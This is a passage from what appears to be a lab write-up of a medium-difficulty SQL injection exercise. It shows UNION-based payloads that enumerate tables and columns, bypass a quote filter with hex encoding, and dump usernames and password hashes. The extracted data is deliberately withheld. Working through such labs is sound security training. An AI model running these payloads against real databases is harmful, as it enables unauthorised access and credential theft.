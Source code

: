 Payload used:

```sql
1 UNION SELECT NULL, NULL #
```

→ No error returned → the query accepts **2 visible columns**.

---

### 3. Extracting table names

Payload used:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables #
```

→ The list of tables includes `users`.

---

### 4. Extracting column names

Initial payload using `'users'` fails due to filtering.  
Hexadecimal encoding is used instead:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x7573657273 #
```

→ The response shows `user` and `password` as valid columns.

---

### 5. Extracting user credentials

Final payload:

```sql
1 UNION SELECT user, password FROM users #
```

→ All usernames and password hashes are successfully displayed.

> ⚠️ Extracted data is intentionally omitted for ethical reasons.

---

## Final thoughts

The Medium level adds superficial filtering, but remains vulnerable.  
By bypassing basic sanitization using hexadecimal encoding and SQL structure knowledge, SQLi is still possible and effective.

---

## Recommended mitigation
